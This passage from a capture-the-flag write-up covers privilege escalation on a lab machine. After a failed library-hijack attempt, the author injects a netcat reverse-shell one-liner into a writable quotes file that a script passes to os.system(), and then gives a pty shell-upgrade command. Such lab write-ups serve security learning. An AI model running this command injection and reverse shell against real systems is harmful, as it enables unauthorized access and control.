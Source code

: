 The second file is a list of quotes. Here's what's happening:
- the second file is opened
- we read the lines in the file, and split them by line-end-marker
- we store the lines in a variable called `lines`
- we choose one random item from a list
- os.system("wall xyz") displays the word xyz on all user's terminals.

Now, what could the possible paths to exploit be? I could think of python library hijacking if we have the right permissions. 

## 3. Priv Esc
### 3.1. Python Library Hijacking (FAIL)
```
weston@national-treasure:~$ ls -la /opt/.dads_scripts/.files/.quotes
-rwxrw---- 1 cage cage 347 Jun 13 10:30 /opt/.dads_scripts/.files/.quotes
weston@national-treasure:~$ ls -la /opt/.dads_scripts/spread_the_quotes.py
-rwxr--r-- 1 cage cage 255 May 26  2020 /opt/.dads_scripts/spread_the_quotes.py
```

I looked at the directory
```
weston@national-treasure:/opt/.dads_scripts$ ls -la
total 16
drwxr-xr-x 3 cage cage 4096 May 26  2020 .
drwxr-xr-x 3 root root 4096 May 25  2020 ..
drwxrwxr-x 2 cage cage 4096 May 25  2020 .files
-rwxr--r-- 1 cage cage  255 May 26  2020 spread_the_quotes.py
```

And clearly, we can not write our own files here. Fail.

### 3.2. Using `os.system()`

What if we can make use of the `os.system()` command? We have the right permissions to override the stuff in the quotes. We can thus put in a reverse shell spawner! 
```
weston@national-treasure:~$ echo "pwn; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 4444 >/tmp/f" > /opt/.dads_scripts/.files/.quotes 
```

... wait for it ...

![getting the reverse shell as cage user](https://i.imgur.com/x3iJD6C.png)

Nice :D

### 3.3. Vertical PrivEsc
Make sure to upgrade your shell using `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Looking at emails,
```
cage@national-treasure:~/email_backup$ cat email_1
cat email_1
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we 
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
```
